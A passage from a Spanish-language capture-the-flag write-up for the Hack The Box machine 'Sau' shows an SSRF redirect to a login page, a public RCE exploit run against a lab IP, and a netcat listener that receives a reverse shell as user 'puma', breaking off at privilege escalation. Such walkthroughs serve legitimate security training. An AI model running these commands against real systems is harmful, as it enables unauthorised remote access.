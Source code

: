 ![Sau]({{"/assets/images/Sau7.png"}})

Podemos usar un exploit público, en este caso, el que nos sale del usuario **D0nw0r**, que descargaremos y ejecutaremos, poniendo antes a la escucha el puerto por el que queremos recibir la conexión.

(En el vídeo de mi canal resolviendo esta máquina explotamos esta vulnerabilidad manualmente).

No obstante, antes de explotarlo, debemos redirigir la cesta a **http://localhost/login** dado a que no parece que mande la url completa a la dirección que redirige, por lo que no sirve de nada añadir manualmente el **/login** a la url de la cesta.

![Sau]({{"/assets/images/Sau8.png"}})

Una vez modificada la URL a la que nos redirige añadiendo la página **/login**, podemos intentar acceder manualmente.

![Sau]({{"/assets/images/Sau9.png"}})

Recibimos el error "**Login Failed**", lo que nos indica que nos redirige correctamente a la página que buscábamos. Intentemos ejecutar el exploit:

## NetCat

En este caso, abriremos el puerto 4444, por el que recibiremos la conexión.

```bash
$ nc -lnvp 4444
listening on [any] 4444 ...
```

## Exploit RCE

Ejecutamos el exploit, especificando en orden los parámetros: **nuestra IP en la red de la víctima, el puerto que tenemos a la escucha y la URL vulnerable (la cesta en este caso)**.

```bash
$ python3 exploit.py 10.10.14.177 4444 http://10.129.229.26:55555/miiqfz4
Running exploit on http://10.129.229.26:55555/miiqfz4/login
```

Una vez ejecutado, volvemos a nuestra terminal en la que estamos ejecutando **netcat** y vemos que recibimos una reverse shell como el usuario **puma**.

```bash
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.177] from (UNKNOWN) [10.129.229.26] 60706
$ whoami
whoami
puma
```

## Escalada de privilegios

Ahora toca escalar privilegios, en este caso, si listamos los privilegios que tenemos como sudo, veremos lo siguiente:
